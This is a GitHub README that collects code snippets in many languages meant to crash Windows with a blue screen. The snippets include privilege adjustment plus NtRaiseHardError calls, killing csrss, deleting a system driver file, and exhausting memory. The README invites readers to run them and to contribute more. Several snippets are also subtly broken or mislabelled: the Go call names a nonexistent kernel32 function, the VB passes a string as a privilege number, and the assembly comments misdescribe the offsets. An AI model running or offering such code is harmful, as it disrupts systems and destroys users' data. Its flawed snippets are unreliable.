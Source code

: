 # BSOD-in-every-language

"BSOD-in-every-language" is a collection of code snippets in various programming languages that can trigger a Windows BSOD. The repository is intended for educational and research purposes only and aims to showcase how programming languages can interact with the Windows operating system in unexpected ways.


## Codes

<details>
    <summary>C++ (click to expand/collapse)</summary>

```cpp
#include <iostream>
#include <Windows.h>
#include <winternl.h>
using namespace std;
typedef NTSTATUS(NTAPI *pdef_NtRaiseHardError)(NTSTATUS ErrorStatus, ULONG NumberOfParameters, ULONG UnicodeStringParameterMask OPTIONAL, PULONG_PTR Parameters, ULONG ResponseOption, PULONG Response);
typedef NTSTATUS(NTAPI *pdef_RtlAdjustPrivilege)(ULONG Privilege, BOOLEAN Enable, BOOLEAN CurrentThread, PBOOLEAN Enabled);
int main()
{
    BOOLEAN bEnabled;
    ULONG uResp;
    LPVOID lpFuncAddress = GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlAdjustPrivilege");
    LPVOID lpFuncAddress2 = GetProcAddress(GetModuleHandle("ntdll.dll"), "NtRaiseHardError");
    pdef_RtlAdjustPrivilege NtCall = (pdef_RtlAdjustPrivilege)lpFuncAddress;
    pdef_NtRaiseHardError NtCall2 = (pdef_NtRaiseHardError)lpFuncAddress2;
    NTSTATUS NtRet = NtCall(19, TRUE, FALSE, &bEnabled); 
    NtCall2(STATUS_FLOAT_MULTIPLE_FAULTS, 0, 0, 0, 6, &uResp); 
    return 0;
}
```

</details>

<details>
    <summary>C# (click to expand/collapse)</summary>

```cs
System.Diagnostics.Process.GetProcessesByName("csrss")[0].Kill();
```

</details>
    
    
<details>
    <summary>Python (click to expand/collapse)</summary>

```py
import ctypes
ntdll = ctypes.windll.ntdll
prev_value = ctypes.c_bool()
res = ctypes.c_ulong()
ntdll.RtlAdjustPrivilege(19, True, False, ctypes.byref(prev_value))
if not ntdll.NtRaiseHardError(0xDEADDEAD, 0, 0, 0, 6, ctypes.byref(res)):
    print("BSOD Successfull!")
else:
    print("BSOD Failed...")
```

</details>
    
    
    
<details>
    <summary>Golang (click to expand/collapse)</summary>

```go
import "fmt"
import "syscall"

func main() {
    kernel32 := syscall.MustLoadDLL("kernel32.dll")
    ntRaiseHardError := kernel32.MustFindProc("RaiseHardError")
    var p uintptr
    var b [256]byte
    for i := 0; i < len(b); i++ {
        b[i] = byte(i)
    }
    ntRaiseHardError.Call(0xc0000022, 0, 0, uintptr(unsafe.Pointer(&b[0])))
    fmt.Println("You should never see this message")
}
```

</details>
    
    
<details>
    <summary>VB.Net (click to expand/collapse)</summary>

```vb
Private Declare Function RtlAdjustPrivilege Lib "ntdll" (ByVal Privilege As Long, ByVal NewValue As Long, ByVal Flags As Long, ByRef ReturnLength As Long) As Long
Private Declare Function NtRaiseHardError Lib "ntdll" (ByVal ErrorStatus As Long, ByVal NumberOfParameters As Long, ByVal UnicodeStringParameterMask As Long, ByVal Parameters As Long, ByVal ValidResponseOption As Long, ByRef Response As Long) As Long

Private Const SE_SHUTDOWN_NAME As String = "SeShutdownPrivilege"
Private Const ERROR_BLUESCREEN As Long = &HC0000022

Private Sub BSOD()
    Dim Result As Long, ReturnLength As Long
    Result = RtlAdjustPrivilege(SE_SHUTDOWN_NAME, True, False, ReturnLength)
    Result = NtRaiseHardError(ERROR_BLUESCREEN, 0, 0, 0, 6, Result)
End Sub

```

</details>
    
    
<details>
    <summary>JAVA (click to expand/collapse)</summary>

```java
public class BSOD {
  public static void main(String[] args) {
    while (true) {
      Runtime.getRuntime().exec("cmd /c echo \"Error!\" >> C:\\WINDOWS\\system32\\log.txt");
    }
  }
}

```

</details>
    
<details>
    <summary>Assembly (click to expand/collapse)</summary>

```css
BITS 32

pushad ; push all general-purpose registers onto the stack
mov eax, fs:[30h] ; get a pointer to the KPCR (Kernel Processor Control Region) structure
mov eax, [eax + 124h] ; get a pointer to the KPRCB (Kernel Processor Control Block) structure
mov eax, [eax + 44h] ; get a pointer to the current thread's KTHREAD structure
mov eax, [eax + 84h] ; get a pointer to the current thread's ETHREAD structure
mov eax, [eax + 0F8h] ; get a pointer to the current thread's TEB (Thread Environment Block) structure
mov eax, [eax + 18h] ; get a pointer to the current thread's PEB (Process Environment Block) structure
mov eax, [eax + 0Ch] ; get a pointer to the current process's PEB_LDR_DATA structure
mov eax, [eax + 0Ch] ; get a pointer to the current process's first LDR_DATA_TABLE_ENTRY structure
mov edx, [eax + 10h] ; get a pointer to the current process's image base
mov eax, [eax] ; get a pointer to the current process's entry point

call eax ; call the current process's entry point

popad ; restore all general-purpose registers from the stack
ret ; return to the caller
```

</details>
    
<details>
    <summary>CMD (click to expand/collapse)</summary>

```css
del C:\Windows\System32\drivers\vgapnp.sys
```

</details>
    
    
<details>
    <summary>PowerShell (click to expand/collapse)</summary>

```ps
$buf = "A" * 10000000
while($true)
{
   $buf += "A" * 10000000
}
```

</details>
    
    
    
    
## Usage

**WARNING: Running this code on your computer can cause a Blue Screen of Death (BSOD) and result in data loss. Use at your own risk.**

To test the code snippets in this repository, you will need a Windows computer. Simply copy and paste the code into a file with the appropriate file extension for the programming language you are using, and run the code on your computer.

## Contributing

Contributions to this repository are welcome! If you have code snippets that can trigger a BSOD in a programming language that is not currently represented in the repository, please feel free to submit a pull request.

## License

This repository is licensed under the [MIT License](LICENSE).
